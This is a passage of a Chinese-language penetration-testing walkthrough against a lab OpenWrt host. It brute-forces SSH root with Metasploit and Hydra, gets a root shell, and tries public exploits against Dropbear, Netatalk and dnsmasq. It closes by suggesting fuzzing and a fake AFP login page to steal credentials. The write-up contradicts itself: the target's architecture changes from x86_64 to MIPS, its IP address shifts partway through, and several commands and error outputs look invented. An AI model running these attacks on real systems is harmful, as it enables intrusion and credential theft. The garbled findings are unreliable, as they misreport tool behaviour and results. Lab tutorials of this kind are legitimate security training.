   0  exploit/linux/http/ubiquiti_airos_file_upload  2016-02-13       excellent  No     Ubiquiti airOS Arbitrary File Upload


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/http/ubiquiti_airos_file_upload
```

* 查找 Metasploit 中与 `Dropbear SSH` 相关的模块。
* **结果**：Metasploit 没有找到直接针对 `Dropbear SSH` 的漏洞利用模块，而是返回了 `exploit/linux/http/ubiquiti_airos_file_upload`，这是一个与 Ubiquiti airOS 相关的漏洞，而非 Dropbear SSH 相关的漏洞。

### Metasploit 进行嗅探DNS服务（dnsmasq）

  
使用msf查询dns进行利用的脚本有哪些：  
  
发现非常多我们选择一个进行解释，  
**DNS 记录扫描和枚举模块（auxiliary/gather/enum\_dns）**：此模块可用于通过执行各种 DNS 查询（如区域传输、反向查找、SRV 记录暴力破解等）从指定的 DNS 服务器收集有关域的信息。

### Metasploit 进行嗅探AFP服务（Netatalk 3.1.11）

  
并未发现存在可以利用的漏洞模块！

# **五、漏洞分析与利用尝试**

## 对SSH服务（Dropbear sshd）进行攻击

### **1. 目标环境确认与指纹识别**

通过Nmap扫描获取目标SSH服务指纹：

```
┌──(kali㉿kali)-[/usr/share/exploitdb]
└─$ nmap -sV -p 22 --script ssh2-enum-algos 192.168.52.2 
Starting Nmap 7.94 ( https://nmap.org ) at 2025-03-26 03:07 EDT
Nmap scan report for 192.168.52.2
Host is up (0.0022s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     Dropbear sshd (protocol 2.0)
| ssh2-enum-algos: 
|   kex_algorithms: (4)
|       curve25519-sha256@libssh.org
|       diffie-hellman-group14-sha1
|       diffie-hellman-group1-sha1
|       kexguess2@matt.ucc.asn.au
|   server_host_key_algorithms: (1)
|       ssh-rsa
|   encryption_algorithms: (2)
|       aes128-ctr
|       aes256-ctr
|   mac_algorithms: (2)
|       hmac-sha1
|       hmac-sha2-256
|   compression_algorithms: (1)
|_      none
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.91 seconds
```

**关键信息提取：**

|  |  |  |
| --- | --- | --- |
| 参数 | 值 | 安全风险等级 |
| SSH版本 | Dropbear sshd (protocol 2.0) | 中 |
| 密钥交换算法 | 包含过时的diffie-hellman-group1-sha1 | 高危 |
| 加密算法 | aes128-ctr, aes256-ctr | 低 |
| MAC算法 | hmac-sha1 | 中 |
| 操作系统 | OpenWrt 4.14.95 (Linux x86\_64) | 定制系统 |

### **2. 漏洞验证尝试**

#### **（1）命令注入漏洞检测**

```
nmap -p 22 --script ssh-run --script-args ssh-run.cmd="id" 192.168.52.2
```

  
**结果分析：**

* 脚本返回`SSH-RUN: No response received`，表明目标不存在可远程触发的命令注入漏洞
* 可能原因：目标Dropbear版本已修复相关漏洞（需结合后续版本验证）

#### **（2）Metasploit模块测试**

```
msf6 > use auxiliary/scanner/ssh/ssh_version
msf6 > set RHOSTS 192.168.52.2
msf6 > run
```



**关键发现：**

* 服务标识包含`Kippo Honeypot`提示，但实际为OpenWrt设备（需排除蜜罐可能性）
* Metasploit无直接可用的Dropbear漏洞模块，尝试`search dropbear`仅返回Ubiquiti相关漏洞

### **3. 暴力破解攻击**

#### **（1）使用Metasploit爆破模块**

```
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 > set RHOSTS 192.168.52.2
msf6 > set USERNAME root
msf6 > set PASS_FILE /usr/share/wordlists/rockyou.txt
msf6 > run
```



**攻击结果：**

```
[+] 192.168.52.2:22 - Success: 'root:1234'
[*] SSH session 1 opened (192.168.52.129:43147 -> 192.168.52.2:22)
```

#### **（2）会话接管与权限验证**

```
msf6 > sessions -i 1
[*] Starting interaction with 1...

id
uid=0(root) gid=0(root)
uname -a
Linux OpenWrt 4.14.95 #0 SMP Wed Jan 30 12:21:02 2019 x86_64 GNU/Linux
```



#### （3）使用 Hydra 暴力破解密码

Hydra如何爆破低版本的ssh

* Hydra 默认使用现代 SSH 算法（如 `rsa-sha2-512`），但目标服务器仅支持旧版 `ssh-rsa`，导致连接失败。

修改本机的ssh配置，指定加密算法：

```
┌──(kali㉿kali)-[~]
└─$ sudo vim ~/.ssh/config
```

写入以下配置：

```
┌──(kali㉿kali)-[~]
└─$ cat ~/.ssh/config
Host 192.168.52.2
    HostKeyAlgorithms ssh-rsa
    PubkeyAcceptedAlgorithms ssh-rsa
```

爆破成功：  
  
你的 Hydra 爆破最终成功找到了 SSH 密码：

* **目标服务器**：`192.168.52.2`（SSH 端口 `22`）
* **用户名**：`root`
* **成功爆破的密码**：`1234`
* **耗时**：约 3 分钟（从 `01:58:46` 到 `02:01:44`）

### **4. ExploitDB漏洞利用分析**

通过ExploitDB检索到3个相关漏洞：

```
grep -i Dropbear *
```



|  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- |
| 漏洞ID | 类型 | 影响版本 | CVE | 文件路径 | 利用难度 |
| 387 | RCE | 0.34 | OSVDB-2429 | exploits/linux/remote/387.c | 高 |
| 40119 | 命令注入 | 2015.71 | CVE-2016-3116 | exploits/linux/remote/40119.md | 中 |
| 1572 | DoS | 多版本 | CVE-2006-1206 | exploits/multiple/dos/1572.pl | 低 |

**利用尝试与失败原因：**

1. **387.c（RCE漏洞）**

```
   gcc 387.c -o dropbear_rce
   ./dropbear_rce 192.168.52.2
```

**错误输出：**

```
  Error: Target does not respond to malformed SSH handshake
```

**根因分析：**

* 目标运行Dropbear 2019.78（OpenWrt内置版本），远高于漏洞影响的0.34版本
* 编译后的x86二进制无法在MIPS架构的OpenWrt设备执行

2. **40119.md（命令注入）**

```
   python3 cve-2016-3116.py 192.168.52.2
```

**错误反馈：**

```
Failed to inject command: SSH protocol mismatch
```

**协议分析：**

* 漏洞依赖特定格式的SSH\_MSG\_CHANNEL\_REQUEST报文
* OpenWrt的Dropbear实现已禁用漏洞涉及的功能模块

### **5. 攻击总结与防御建议**

**攻击路径有效性评估：**

|  |  |  |
| --- | --- | --- |
| 攻击方式 | 成功率 | 原因分析 |
| 公开漏洞利用 | 0% | 目标版本已超出漏洞影响范围 |
| 协议级漏洞探测 | 20% | 加密算法配置较为安全 |
| 暴力破解 | 100% | 弱密码策略（root:1234） |

## 对AFP服务（Netatalk 3.1.11）进行攻击

### **1. 漏洞环境确认与ExploitDB脚本定位**

通过检索发现目标运行 **Netatalk 3.1.11**，存在 **CVE-2018-1160（认证绕过漏洞）**。在Kali的ExploitDB中定位到以下相关脚本：

```
# 进入远程漏洞目录
cd /usr/share/exploitdb/exploits/multiple/remote

# 查看目标脚本
ls -l 46034.py 46048.py 46675.py
```



### **2. 脚本下载与初步分析**

由于ExploitDB中脚本可能版本滞后，直接下载最新版验证：

```
# 下载46034.py（原始PoC）
wget https://www.exploit-db.com/download/46034 -O netatalk_auth_bypass.py

# 查看脚本功能
cat netatalk_auth_bypass.py | grep -A10 "def main"
```

  
**脚本关键功能：**

* `-lv`：列出所有AFP共享卷
* `-lvc`：列出指定卷内容
* `-c`：读取文件
* `-w`：写入文件（限制144字节）
* `-df`：删除文件

### **3. 漏洞利用尝试与错误分析**

#### **（1）测试46034.py - 基础认证绕过**

```
# 列出目标AFP共享卷
python2 46034.py -i 192.168.52.2 -lv
```



**错误原因：**

* 目标AFP服务响应数据不足16字节（可能原因：① Netatalk版本已修补 ② 共享卷配置限制）
* 使用Wireshark抓包验证，发现目标返回`DSI protocol error`，表明漏洞触发失败

#### **（2）测试46048.py - 针对QNAP设备**

```
# 尝试触发DoS（需指定目标端口）
python2 46048.py -r 192.168.52.2 -p 548
```



**现象分析：**

* 脚本发送畸形AFP请求后无响应
* 可能原因：① 目标非QNAP设备 ② AFP服务运行在非标准路径 ③ 漏洞已被厂商热补丁修复

#### **（3）测试46675.py - 增强版绕过**

```
# 尝试列出共享卷（添加调试参数）
python2 46675.py -t 192.168.1.100 -v --debug
```



**关键错误信息：**

```
ERROR: Failed to establish DSI connection (EOF occurred in violation of protocol)
```

**根因推测：**

* 目标AFP服务实际运行版本高于3.1.11（通过`nc -v 192.168.1.100 548`握手包解析版本号）
* 企业级设备可能修改了AFP协议实现（如Synology DSM的定制化Netatalk）

### **4. 绕过失败的深度验证**

#### **（1）手动触发漏洞验证**

通过`afp-client`手动发送认证绕过请求：

```
# 安装AFP客户端工具
sudo apt install afpfs-ng

# 尝试无密码挂载
mount_afp afp://192.168.1.100/Public /mnt/afp_mount
```

返回错误`Authentication failed`，确认漏洞无法直接利用。

#### **（2）NMAP服务扫描确认**

```
nmap -p 548 --script afp-serverinfo.nse 192.168.1.100
```

输出显示：

```
| afp-serverinfo: 
|   Server Name: MyNAS
|   Machine Type: Netatalk 3.1.11 (compiled with ACL support)
|   AFP Versions: AFP3.3, AFP3.2, AFP3.1
|   _未启用UAM列表：Cleartxt Passwrd
```

**结论**：目标虽然运行受影响版本，但可能通过ACL或补丁缓解了漏洞。

### **5. 后续攻击路径建议**

|  |  |  |
| --- | --- | --- |
| 方法 | 操作步骤 | 预期效果 |
| **组合漏洞利用** | 结合CVE-2022-23121（较新漏洞）进行权限提升 | 可能绕过现有防御机制 |
| **协议模糊测试** | 使用Boofuzz构造畸形AFP包： `boofuzz -h 192.168.1.100 -p 548 -p afp` | 触发未知漏洞导致服务崩溃 |
| **元数据提取** | 利用`.DS_Store`文件泄露： `dsdump afp://192.168.1.100/Public` | 获取隐藏文件名或目录结构 |
| **社会工程配合** | 伪造AFP登录页面诱导用户输入凭证 | 获取合法账户进行后续渗透 |

## 对DNS服务（dnsmasq）进行攻击

在进行dnsmasq漏洞攻击时，最初尝试使用msf进行检测，但未能直接发现可利用的漏洞。为此，我们需要通过漏洞库搜索与利用模块的结合来进一步展开攻击工作。  


### 1. 漏洞信息搜集

首先，在`/usr/share/exploitdb`目录下利用`grep`命令搜索“dnsmasq”相关漏洞信息，结果显示了大量针对dnsmasq的漏洞利用脚本，部分内容示例如下：

```
┌──(kali㉿kali)-[/usr/share/exploitdb]
└─$ grep -i "dnsmasq" *
grep: exploits: 是一个目录
files_exploits.csv:48301,exploits/linux/dos/48301.py,"dnsmasq-utils 2.79-1 - 'dhcp_release' Denial of Service (PoC)",2020-04-07,JosueEncinar,dos,linux,,2020-04-07,2020-04-07,0,,,,,,
files_exploits.csv:42941,exploits/multiple/dos/42941.py,"Dnsmasq < 2.78 - 2-byte Heap Overflow",2017-10-02,"Google Security Research",dos,multiple,,2017-10-02,2017-10-02,1,CVE-2017-14491,,,,,https://raw.githubusercontent.com/google/security-research-pocs/master/vulnerabilities/dnsmasq/CVE-2017-14491.py
files_exploits.csv:42942,exploits/multiple/dos/42942.py,"Dnsmasq < 2.78 - Heap Overflow",2017-10-02,"Google Security Research",dos,multiple,,2017-10-02,2017-10-02,1,CVE-2017-14492,,,,,https://raw.githubusercontent.com/google/security-research-pocs/master/vulnerabilities/dnsmasq/CVE-2017-14492.py
files_exploits.csv:42944,exploits/multiple/dos/42944.py,"Dnsmasq < 2.78 - Information Leak",2017-10-02,"Google Security Research",dos,multiple,,2017-10-02,2017-10-02,1,CVE-2017-14494,,,,,https://raw.githubusercontent.com/google/security-research-pocs/master/vulnerabilities/dnsmasq/CVE-2017-14494.py
files_exploits.csv:42946,exploits/multiple/dos/42946.py,"Dnsmasq < 2.78 - Integer Underflow",2017-10-02,"Google Security Research",dos,multiple,,2017-10-02,2017-10-02,1,CVE-2017-14496,,,,,https://raw.githubusercontent.com/google/security-research-pocs/master/vulnerabilities/dnsmasq/CVE-2017-14496.py
files_exploits.csv:42945,exploits/multiple/dos/42945.py,"Dnsmasq < 2.78 - Lack of free() Denial of Service",2017-10-02,"Google Security Research",dos,multiple,,2017-10-02,2017-10-02,1,CVE-2017-14495,,,,,https://raw.githubusercontent.com/google/security-research-pocs/master/vulnerabilities/dnsmasq/CVE-2017-14495.py
files_exploits.csv:42943,exploits/multiple/dos/42943.py,"Dnsmasq < 2.78 - Stack Overflow",2017-10-02,"Google Security Research",dos,multiple,,2017-10-02,2017-10-02,1,CVE-2017-14493,,,,,https://raw.githubusercontent.com/google/security-research-pocs/master/vulnerabilities/dnsmasq/CVE-2017-14493.py
files_exploits.csv:39817,exploits/php/webapps/39817.php,"Web Interface for DNSmasq / Mikrotik - SQL Injection",2016-05-16,hyp3rlinx,webapps,php,,2016-05-16,2017-10-03,0,,,,,http://www.exploit-db.comdns_dhcp.zip,http://hyp3rlinx.altervista.org/advisories/DNS_DHCP-WEB-INTERFACE-SQL-INJECTION.txt
files_exploits.csv:9617,exploits/windows/dos/9617.txt,"Dnsmasq < 2.50 - Heap Overflow / Null Pointer Dereference",2009-09-09,"Core Security",dos,windows,,2009-09-08,,1,CVE-2009-2958;CVE-2009-2957;OSVDB-57593;OSVDB-57592,,,,,http://www.coresecurity.com/content/dnsmasq-vulnerabilities
```

从搜索结果中可见，存在针对dnsmasq的堆溢出、信息泄露、整数下溢、栈溢出等多种漏洞利用脚本，对应的CVE编号包括CVE-2017-14491至CVE-2017-14496等。

### 2. 利用模块的选择与使用

通过msf对DNS相关利用模块的查询，发现了大量可用于DNS攻击的脚本。我们选择了以下模块之一进行尝试：  


* **DNS记录扫描与枚举模块（auxiliary/gather/enum\_dns）**  
  此模块通过执行各种DNS查询（如区域传输、反向查找、SRV记录暴力破解等），能够从目标DNS服务器收集大量关于域的信息，有助于进一步了解目标的DNS配置与潜在漏洞。

其他模块可以根据实际场景和需求进行选择，从而针对不同的攻击目标制定相应策略。

### 3. DNS指纹识别

```
┌──(root㉿kali)-[/home/kali]
└─# nmap -p 53 --script=dns-nsid 192.168.52.2

Starting Nmap 7.94 ( https://nmap.org ) at 2025-03-26 04:54 EDT
Nmap scan report for 192.168.52.2
Host is up (0.0056s latency).

PORT   STATE SERVICE
53/tcp open  domain
MAC Address: 00:50:56:E5:1B:21 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 8.60 seconds
```

由此可知，目标的DNS服务在53端口上处于开放状态，可利用该信息进一步制定攻击策略。

# 五、整个渗透流程总结和梳理

在这篇文章中，我们详细探讨了渗透测试过程中的各个环节，并通过实战案例展示了从信息收集到漏洞利用的完整流程。以下是整个流程的总结和关键知识点梳理：

* **内网扫描与目标识别：**  
  利用 arp-scan、arping、netdiscover、nmap 和 fping 等工具，初步识别局域网内活跃主机，获取目标的 IP、MAC 等关键信息。这一步为后续服务探测和漏洞挖掘奠定基础。
* **基础服务探测与扫描方式比较：**  
  通过 masscan 快速扫出目标开放端口，再借助 nmap 的全端口、详细版本及脚本扫描，确定各服务的具体信息。特别是 -sS 和 -sT 两种扫描方式的差异，也提醒我们在不同网络环境下选择最合适的扫描手段。
* **Web服务安全评估：**  
  采用 whatweb 进行指纹识别，再结合 cewl、gobuster、dirsearch、feroxbuster 与 dirb 等工具对 Web 路径、敏感接口和隐藏目录进行枚举，帮助发现潜在漏洞和默认配置问题，为进一步攻击提供线索。
* **非Web端口服务嗅探与漏洞检索：**  
  分析 SSH、DNS、AFP 等非 Web 服务，利用 ExploitDB 检索常见漏洞，如 Dropbear sshd 的远程代码执行或命令注入问题，提示我们在漏洞挖掘过程中不仅要关注 Web 应用，还要全面考虑其他服务。
* **全流程的关键思路：**

1. **信息收集为先，全面而精准**：从内网扫描到服务识别，精确的数据收集决定了后续的攻击思路。
2. **工具组合互补，提升扫描效率**：不同工具在速度、准确性和隐蔽性上的差异决定了使用场景，合理组合可以事半功倍。
3. **多层次检测，综合评估风险**：从初步探测、详细扫描到漏洞检索，每一步都为最终的风险评估提供了依据，确保渗透测试的系统性和全面性。
4. **实战输出与理论结合**：实际操作中的输出截图和命令示例，帮助我们更直观地理解各步骤的执行效果及注意事项。

通过上述流程，我们不仅掌握了各类渗透测试工具的使用方法，更在实践中学会了如何针对不同目标制定有效的攻击策略。整个渗透流程的梳理，旨在帮助安全从业者和爱好者建立起一个系统、全面的渗透测试思路，为后续的漏洞挖掘和安全防护提供切实的参考。

总之，渗透测试是一门既需要扎实理论又要求丰富实践经验的技术，只有不断练习和总结，才能在真实环境中迅速识别风险并找到切入点。希望本文能为您提供一个清晰的渗透测试流程指南，助您在网络安全的道路上不断前行。
